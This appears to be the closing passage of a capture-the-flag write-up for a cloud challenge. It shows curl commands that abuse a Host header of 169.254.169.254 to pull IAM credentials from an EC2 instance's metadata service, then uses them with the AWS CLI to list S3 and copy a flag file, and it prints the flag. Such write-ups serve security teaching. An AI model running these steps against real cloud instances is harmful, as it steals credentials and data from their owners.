 we notice that this is a custom service that connects to an `ec2` instance 
with a specific ip address.


if we tried to ping the machine it will fail, but since this is the only info we have about it lets try to get its meta data :


in order to do so we need to specify the host IP address which is 
`169.254.169.254`

<blockquote >
  <h3>What is 169.254.169.254 address ?</h3>
  <p>
    These are dynamically configured link-local addresses. They are only valid on a single network segment and are not to be routed.
Of particular note, 169.254.169.254 is used in AWS, Azure, GCP and other cloud computing platforms to host instance metadata service.
  </p>
</blockquote>

#### Part VI: Getting the flag;

```shell
curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
```

```shell
curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
```

```shell
​aws configure --profile Magni
```

```shell
​aws_session_token = <session-token>
```

```shell
​aws s3 ls --profile Magni
```
```shell
aws s3 cp s3://vanaheim55/flag.txt . --profile Magni
```

FLAG: PWNSEC{d347h_c4n_h4v3_m3_wh3n_17_34rn5_m3_68234}